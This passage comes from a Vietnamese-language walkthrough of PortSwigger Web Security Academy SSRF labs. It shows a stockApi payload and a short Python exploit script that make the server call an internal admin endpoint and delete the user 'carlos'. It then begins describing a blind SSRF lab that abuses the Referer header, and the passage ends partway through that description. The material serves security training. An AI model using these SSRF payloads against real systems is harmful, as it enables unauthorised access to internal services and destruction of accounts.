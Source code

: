 và mình xóa người dùng carlos bằng

```
stockApi=http://192.168.0.140:8080/admin/delete?username=carlos
```

mình đã viết lại script khai thác:

```python=
#!/usr/bin/python3.7
import requests
import re
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from bs4 import BeautifulSoup

url = 'https://0aab00210414d0558362c96100660024.web-security-academy.net'

session = requests.Session()

data_url = 'stockApi=http://192.168.0.140:8080/admin/delete?username=carlos'

response = requests.post(
    url + '/product/stock',
    data=data_url,
    verify=False,
)

# print(response.text) # hiển thị response có flag
soup = BeautifulSoup(response.text, 'html.parser')
print(soup)
```

mục đích xóa người dùng carlos của chúng ta đã hoàn thành và mình cũng đã giải quyết được bài lab này

![image](https://hackmd.io/_uploads/HkZHD-qKa.png)

## 3. Lab: Blind SSRF with out-of-band detection

link: https://portswigger.net/web-security/ssrf/blind/lab-out-of-band-detection

### Đề bài

![image](https://hackmd.io/_uploads/B1AmK-5Y6.png)

### Phân tích

Ứng dụng lab này sử dụng 1 software khác luôn fetch đến URL tại trường header Referer mỗi khi user truy cập 1 trang sản phẩm bất kì

![image](https://hackmd.io/_uploads/rktt3WcFa.png)
